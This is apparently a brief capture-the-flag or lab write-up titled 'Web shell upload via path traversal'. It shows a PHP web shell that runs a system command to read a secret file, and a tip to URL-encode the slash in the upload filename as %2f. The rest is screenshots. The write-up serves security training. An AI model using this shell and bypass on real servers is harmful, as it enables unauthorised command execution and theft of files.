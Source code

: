 # Web shell upload via path traversal

## File Content
```php
<?php
system("cat /home/carlos/secret");
?>
```

## Uploading
![image](https://user-images.githubusercontent.com/60841283/150630846-e047c5f1-f0b1-46cd-95e1-839280c2c5a7.png)

![image](https://user-images.githubusercontent.com/60841283/150630862-762d35d2-7f0f-4512-b875-749abedbfdb2.png)

![image](https://user-images.githubusercontent.com/60841283/150630900-3be980ed-666d-464d-95c9-212b3ae7a529.png)

Encode "/" --> "%2f"

![image](https://user-images.githubusercontent.com/60841283/150630938-e8607ea4-33e7-42e5-9478-b0e03bb868cb.png)

![image](https://user-images.githubusercontent.com/60841283/150630963-59924a8d-793d-4658-b562-e688812766e8.png)

Also,

![image](https://user-images.githubusercontent.com/60841283/150631012-a8c6169f-7638-4c86-bfd2-e492526848d8.png)
